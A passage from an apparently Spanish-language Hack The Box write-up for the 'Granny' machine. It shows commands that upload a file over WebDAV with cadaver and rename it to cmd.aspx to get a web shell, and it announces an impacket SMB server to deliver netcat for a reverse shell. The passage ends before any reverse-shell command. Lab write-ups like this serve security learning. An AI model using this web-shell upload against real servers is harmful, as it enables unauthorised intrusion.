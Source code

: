 ![Untitled](/assets/images/2022-02-15-writeup-maquina-htb-granny/Untitled%202.png)

ahora usamos el metodo HTTP - MOVE para renombrar cmd.txt a cmd.aspx

```bash
Granny # ❯ cadaver 10.129.144.63                                           
dav:/> put cmd.txt
Transferiendo cmd.txt a '/cmd.txt':
 Progreso: [                              ]   0,0% of 4260 bytes Progreso: [=============================>] 100,0% of 4260 bytes exitoso.
dav:/> move cmd.txt cmd.aspx
Moviendo '/cmd.txt' a '/cmd.aspx':  exitoso.
dav:/>
```

de esta manera logramos ejecutar comandos usando nuestra web shell usando cmd.apsx

![Untitled](/assets/images/2022-02-15-writeup-maquina-htb-granny/Untitled%203.png)

## Reverse shell

para obtener una reverse shell crearemos un servidor smb con impacket para poder compartir nuestras herramientas a la maquinas victima como netcat

